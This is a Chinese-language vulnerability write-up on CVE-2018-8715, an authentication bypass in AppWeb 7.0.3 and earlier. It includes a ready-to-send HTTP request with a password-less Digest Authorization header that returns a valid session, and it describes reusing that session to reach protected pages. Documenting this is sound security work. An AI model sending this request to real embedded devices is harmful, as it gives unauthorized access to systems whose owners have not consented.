 # （CVE-2018-8715）AppWeb认证绕过漏洞

## 一、漏洞简介

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证

- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头

- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为null（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

## 二、漏洞影响

AppWeb <=7.0.3

## 三、复现过程

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为admin。

构造头Authorization: Digest username=admin，并发送如下数据包：

```html
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![image](images/img1.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

![image](images/img2.png)

## 参考链接

https://vulhub.org/#/environments/appweb/CVE-2018-8715/

https://ssd-disclosure.com/index.php/archives/3676

https://github.com/embedthis/appweb/issues/610
